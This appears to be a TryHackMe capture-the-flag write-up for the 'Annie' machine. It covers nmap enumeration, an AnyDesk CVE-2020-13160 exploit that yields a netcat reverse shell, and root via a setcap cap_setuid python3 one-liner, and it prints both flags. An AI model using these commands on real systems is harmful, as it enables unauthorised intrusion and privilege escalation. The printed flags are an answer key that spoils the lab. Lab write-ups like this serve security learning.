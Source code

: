 ```yaml
---
title: "Annie"
author: "Divyanshu Sharma"
date: 2022-10-30
permalink: /tryhackme/Annie
tags: tryhackme
---
```

# IP
10.10.226.12

## Enumeration

### Nmap
Found 2 port running on the system 
```console
❯ nmap -sC -sV 10.10.226.12 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 11:52 IST
Nmap scan report for 10.10.226.12
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 791.73 seconds
```

The service running on port `7070/tcp` is anyDesk, on googling found this service to be exploitable ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160)) for linux systems. 


## Exploit
### Anydesk ([CVE:2020-13160](https://nvd.nist.gov/vuln/detail/CVE-2020-13160))
Found Remote Code execution for `Anydesk 5.5.2`, after making changes to the exploit and running this exploit got a reverse shell.
```console
❯ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.226.12] 44538
python3 -c "import pty; pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$
```
Found `user.txt` 
```console
annie@desktop:/home/annie$ cat user.txt
THM{N0t_Ju5t_ANY_D3sk}
```
### Privilege Escalation 
Found `setcap` as `SUID` binary on looking for exploit found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).
```console
annie@desktop:/home/annie$ cp /usr/bin/python3 .
annie@desktop:/home/annie$ setcap cap_setuid+ep ./python3
annie@desktop:/home/annie$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@desktop:/home/annie# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}

```
